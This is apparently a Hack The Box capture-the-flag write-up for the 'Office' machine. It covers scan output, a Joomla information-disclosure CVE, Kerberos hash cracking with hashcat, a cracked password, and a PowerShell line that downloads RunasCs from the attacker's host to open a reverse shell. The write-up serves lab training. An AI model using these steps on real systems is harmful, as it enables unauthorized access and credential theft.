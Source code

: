 +++
title = 'Test'
+++
# writeup office HTB(user)
## user
### RECON
```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 16 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-title: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-19 14:34:25Z)
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
..........................................

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38823/tcp): CLEAN (Timeout)
|   Check 2 (port 18395/tcp): CLEAN (Timeout)
|   Check 3 (port 60879/udp): CLEAN (Timeout)
|   Check 4 (port 60573/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h59m52s
| smb2-time: 
|   date: 2024-02-19T14:35:21
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 01:36:08 2024 -- 1 IP address (1 host up) scanned in 105.60 seconds
```
### web
let check admin page 
![image](https://github.com/vanatka10/myblog/assets/126310360/8cf1bcb3-0cb5-4c13-93c0-a7d89ea5a3f8)

i have login with some default username and password but nothing are corret

let check version joomla
we can check verion with following path:
```
Version
In /administrator/manifests/files/joomla.xml you can see the version.
In /language/en-GB/en-GB.xml you can get the version of Joomla.
In plugins/system/cache/cache.xml you can see an approximate version.
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

![image](https://github.com/vanatka10/myblog/assets/126310360/857f9313-2f9e-43d5-a2a7-889871041884)
### CVE-2023-23752
we can easily found cve of this version
![image](https://github.com/vanatka10/myblog/assets/126310360/6607d033-ebe1-4973-a4fd-99226cdf4ce1)

Unauthenticated information disclosure that's exactly what we want.

look at some exploit file we can see it with send request to some uri and retrieve some useful information:
```
{root_url}/api/index.php/v1/users?public=true
{root_url}/api/index.php/v1/config/application?public=true
```
![image](https://github.com/vanatka10/myblog/assets/126310360/7abb26a3-441a-466b-91ad-d538bbf8b461)

https://github.com/Acceis/exploit-CVE-2023-23752.git

![image](https://github.com/vanatka10/myblog/assets/126310360/732f64ad-ec0f-4d26-8215-0f1ea55190dc)

We have some Credentials but i can't login with these :3 . probably password of another user?
kerberos port open so i use kerbrute discover user.  
i got some username, after a few tries and fuzz finally i have working username .It is 'dwolfe' but it just use in smb

### smb
```
smbclient //10.129.198.153/SOC\ Analysis  -U 'dwolfe'
```
and get file pcap

following this article we get username, hash and crack password with hashcat
https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
```
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```
hashcat -m 19900 hash.txt /user/share/wordlist/rockyou.txt
```

pass:playboy69

### user

login admin panel -> template and ... get reverse shell
![image](https://github.com/vanatka10/myblog/assets/126310360/aaaf5e9b-a270-4b37-a264-d755805607e1)

next we use runas to elevate an account
```
powershell -c wget 10.10.16.48:9000/RunasCs.exe -o r.exe
./r.exe tstark playboy69 -r 10.10.16.48:8888 cmd


```
![image](https://github.com/vanatka10/myblog/assets/126310360/24571f7e-886b-4cf1-be73-fc13573affc1)

get the flag
![image](https://github.com/vanatka10/myblog/assets/126310360/c356cb70-a650-4ab6-a65b-36748dbc2931)

